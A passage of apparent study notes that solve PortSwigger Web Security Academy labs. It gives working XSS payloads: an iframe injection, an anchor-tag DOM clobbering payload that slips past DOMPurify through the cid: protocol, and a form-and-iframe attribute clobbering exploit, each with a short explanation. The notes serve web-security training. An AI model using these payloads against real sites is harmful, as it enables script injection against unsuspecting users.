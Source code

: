     Accept-Language: en-US,en;q=0.9
    ```
    
    **Exploit**
    
    ```jsx
    <iframe src="https://<target.com>/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://<target.com>';window.x=1;">
    ```
    
- **[Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)**
    
    **Vulnerable code**
    
    ```jsx
    let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
    ```
    
    **Exploit**
    
    ```jsx
    <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
    ```
    
    **Explain**
    
    The `defaultAvatar` object is implemented using this dangerous pattern containing the logical `OR` operator in conjunction with a global variable. This makes it vulnerable to [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering).
    
    You can clobber this object using anchor tags. Creating two anchors with the same ID causes them to be grouped in a DOM collection. The `name` attribute in the second anchor contains the value `"avatar"`, which will clobber the `avatar` property with the contents of the `href` attribute.
    
    Notice that the site uses the `DOMPurify` filter in an attempt to reduce [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based). However, `DOMPurify` allows you to use the `cid:` protocol, which does not URL-encode double-quotes. This means you can inject an encoded double-quote that will be decoded at runtime. As a result, the injection described above will cause the `defaultAvatar` variable to be assigned the clobbered property `{avatar: ‘cid:"onerror=alert(1)//’}` the next time the page is loaded.
    
    When you make a second post, the browser uses the newly-clobbered global variable, which smuggles the payload in the `onerror` event handler and triggers the `alert()`
    
- **[Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)**
    
    **exploit**
    
    ```jsx
    Go to one of the blog posts and create a comment containing the following HTML:
    <form id=x tabindex=0 onfocus=print()><input id=attributes>
    ----------------------------------------------------------------------------------------------------------
    Go to the exploit server and add the following iframe to the body:
    <iframe src=https://<target.com>.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
    ```
    